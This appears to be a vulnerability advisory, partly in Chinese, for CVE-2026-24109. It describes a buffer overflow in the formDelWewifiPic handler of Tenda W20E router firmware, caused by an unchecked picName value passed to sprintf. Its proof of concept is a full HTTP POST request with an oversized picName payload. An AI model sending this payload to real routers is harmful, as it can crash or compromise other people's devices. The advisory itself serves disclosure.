

# CVE-2026-24109 漏洞信息

## 基础信息
- **CVE编号**: CVE-2026-24109
- **影响组件**: goform/formDelWewifiPic
- **固件版本**: Tenda W20E V4.0br_V15.11.0.6

## 漏洞详情



formDelWewifiPic

Attackers may exploit the vulnerability by controlling the value of `picName`. When this value is used in `sprintf` without validating variable sizes, it could lead to a buffer overflow vulnerability.
poc:
```
POST /goform/formDelWewifiPic HTTP/1.1 Host: 127.0.0.1 Content-Length: 251 Cache-Control: max-age=0 sec-ch-ua: "Not=A?Brand";v="24", "Chromium";v="140" sec-ch-ua-mobile: ?0 sec-ch-ua-platform: "Windows" Accept-Language: zh-CN,zh;q=0.9 Origin: http://127.0.0.1 Content-Type: application/x-www-form-urlencoded Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: same-origin Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 Sec-Fetch-Dest: document Referer: http://127.0.0.1/index.asp Accept-Encoding: gzip, deflate, br Connection: keep-alive

settingsChanged=1&picName=11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```
